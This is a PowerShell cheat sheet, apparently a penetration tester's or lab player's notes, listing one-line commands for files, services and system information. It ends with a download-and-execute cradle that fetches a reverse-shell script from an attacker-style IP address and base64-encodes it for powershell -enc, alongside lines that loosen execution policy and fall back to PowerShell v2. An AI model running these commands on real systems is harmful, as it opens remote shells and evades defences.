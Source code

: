 # powershell: find hidden files recursice  
Get-ChildItem -Hidden -Recursive \path\  
  
# powershell: compress (zip) a file  
Compress-Archive -U -LiteralPath \source\path\ -DestinationPath \path\newfile  
  
# powershell: unzip a file  
Expand-Archive -LiteralPath \source\path\ -DestinationPath \path\target  
  
# powershell: extract string of command result  
findstr "something"  
  
# powershell: show all bssids of saved wifi networks  
netsh wlan show profiles * | findstr "SSID-Name"  
  
# powershell: allow execution of all ps scripts  
Set-ExecutionPolicy Unrestricted  
  
# powershell: list execution policies  
Get-ExecutionPolicy -List  
  
# powershell: display file contents  
Get-Content <file>  
  
# powershell: CMDlet help  
Get-Help <CMDlet> -examples  
  
# powershell: display ps version  
$PSVersionTable  
  
# powershell: run PS v2  
powershell.exe -version 2.0  
  
# powershell: list running services  
Get-Service | where_object {$_.status -eq "Running"}  
  
# powershell: return services  
get-service | measure-object  
  
# powershell: return list of PSDrives  
get-psdrive  
  
# powershell: return only names  
get-process | select -expandproperty name  
  
# powershell: export OS information to CSV  
Get-WmiObject -class win32_operatingsystem | select -property * | export-csv c:\os.txt  
  
# powershell: download file over HTTP  
(new-object system.net.webclient).downloadFile("url","dest")  
  
# powershell: list hostname and IP for all domain computers  
Get-WmiObject -ComputerName <DC> -Namespace root\microsoftDNS -Class MicrosoftDNS_ResourceRecord -Filter "domainname=' <DOMAIN>'" | select textrepresentation  
  
#powershell donload file  
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/reverse.ps1')  
cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0  
powershell -enc "BASE64"